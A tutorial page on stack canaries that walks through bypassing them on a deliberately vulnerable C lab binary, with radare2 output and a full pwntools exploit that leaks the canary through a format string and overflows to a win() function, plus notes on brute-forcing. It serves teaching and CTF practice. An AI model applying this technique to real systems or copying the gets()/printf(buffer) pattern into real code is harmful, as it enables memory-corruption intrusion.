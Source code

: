 ```yaml
---
description: The Buffer Overflow defence
---
```


# Stack Canaries

Stack Canaries are very simple - at the beginning of the function, a random value is placed on the stack. Before the program executes `ret`, the current value of that variable is compared to the initial: if they are the same, no buffer overflow has occurred.

If they are not, the attacker attempted to overflow to control the return pointer and the program crashes, often with a `***stack smashing detected***` error message.

> Note: On Linux, stack canaries end in `00`. This is so that they null-terminate any strings in case you make a mistake when using print functions.

## Bypassing Canaries

There are two ways to bypass a canary.

### Leaking it

This is quite broad and will differ from binary to binary, but the main aim is to read the value. The simplest option is using **format string** if it is present - the canary, like other local variables, is on the stack, so if we can leak values off the stack it's easy.

#### Source

```c
#include <stdio.h>

void vuln() {
    char buffer[64];

    puts("Leak me");
    gets(buffer);

    printf(buffer);
    puts("");

    puts("Overflow me");
    gets(buffer);
}

int main() {
    vuln();
}

void win() {
    puts("You won!");
}
```

The source is very simple - it gives you a format string vulnerability, then a buffer overflow vulnerability. The format string we can use to leak the canary value, then we can use that value to overwrite the canary with itself. This way, we can overflow past the canary but not trigger the check as its value remains constant. And of course, we just have to run `win()`.

#### 32-bit

{% file src="../../.gitbook/assets/canary-32.zip" caption="Canary - 32-bit" %}

First let's check there **is** a canary:

```text
$ pwn checksec vuln-32 
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Yup, there is. Now we need to calculate at what offset the canary is at, and to do this we'll use radare2.

```text
$ r2 -d -A vuln-32

[0xf7f2e0b0]> db 0x080491d7
[0xf7f2e0b0]> dc
Leak me
%p
hit breakpoint at: 80491d7
[0x080491d7]> pxw @ esp
0xffd7cd60  0xffd7cd7c 0xffd7cdec 0x00000002 0x0804919e  |...............
0xffd7cd70  0x08048034 0x00000000 0xf7f57000 0x00007025  4........p..%p..
0xffd7cd80  0x00000000 0x00000000 0x08048034 0xf7f02a28  ........4...(*..
0xffd7cd90  0xf7f01000 0xf7f3e080 0x00000000 0xf7d53ade  .............:..
0xffd7cda0  0xf7f013fc 0xffffffff 0x00000000 0x080492cb  ................
0xffd7cdb0  0x00000001 0xffd7ce84 0xffd7ce8c 0xadc70e00  ................
```

The last value there is the canary. We can tell because it's roughly 64 bytes after the "buffer start", which should be close to the end of the buffer. Additionally, it ends in `00` and looks very random, unlike the libc and stack addresses that start with `f7` and `ff`. If we count the number of address it's around 24 until that value, so we go one before and one after as well to make sure.

```text
$./vuln-32

Leak me
%23$p %24$p %25$p
0xa4a50300 0xf7fae080 (nil)
```

It appears to be at `%23$p`. Remember, stack canaries are randomised for each new process, so it won't be the same.

Now let's just automate grabbing the canary with pwntools:

```python
from pwn import *

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')
```

```text
$ python3 exploit.py 
[+] Starting local process './vuln-32': pid 14019
[*] b'Leak me\n'
[+] Canary: 0xcc987300
```

Now all that's left is work out what the offset is until the canary, and then the offset from after the canary to the return pointer.

```text
$ r2 -d -A vuln-32
[0xf7fbb0b0]> db 0x080491d7
[0xf7fbb0b0]> dc
Leak me
%23$p
hit breakpoint at: 80491d7
[0x080491d7]> pxw @ esp
[...]
0xffea8af0  0x00000001 0xffea8bc4 0xffea8bcc 0xe1f91c00
```

We see the canary is at `0xffea8afc`. A little later on the return pointer \(we assume\) is at `0xffea8b0c`. Let's break just after the next `gets()` and check what value we overwrite it with \(we'll use a De Bruijn pattern\).

```text
[0x080491d7]> db 0x0804920f
[0x080491d7]> dc
0xe1f91c00
Overflow me
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA
hit breakpoint at: 804920f
[0x0804920f]> pxw @ 0xffea8afc
0xffea8afc  0x41574141 0x41415841 0x5a414159 0x41614141  AAWAAXAAYAAZAAaA
0xffea8b0c  0x41416241 0x64414163 0x41654141 0x41416641  AbAAcAAdAAeAAfAA
```

Now we can check the canary and EIP offsets:

```text
[0x0804920f]> wopO 0x41574141
64
[0x0804920f]> wopO 0x41416241
80
```

Return pointer is 16 bytes after the canary start, so 12 bytes after the canary.

```python
from pwn import *

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')

payload = b'A' * 64
payload += p32(canary) # overwrite canary with original value - stop from triggering
payload += b'A' * 12
payload += p32(0x08049245)

p.clean()
p.sendline(payload)

print(p.clean().decode('latin-1'))
```

#### 64-bit

Same source, same approach, just 64-bit. Try it yourself before checking the solution.

{% hint style="info" %}
Remember, in 64-bit format string goes to the relevant registers first and the addresses can fit 8 bytes each so the offset may be different.
{% endhint %}

{% file src="../../.gitbook/assets/canary-64.zip" caption="Canary - 64-bit" %}

### Bruteforcing the Canary

This _is_ possible on 32-bit, and sometimes unavoidable. It's not, however, feasible on 64-bit.

As you can expect, the general idea is to run the process loads and load of times with random canary values until you get a hit, which you can differentiate by the presence of a known plaintext, e.g. `flag{`. this can take ages to run and is not a particularly interesting challenge, frankly.

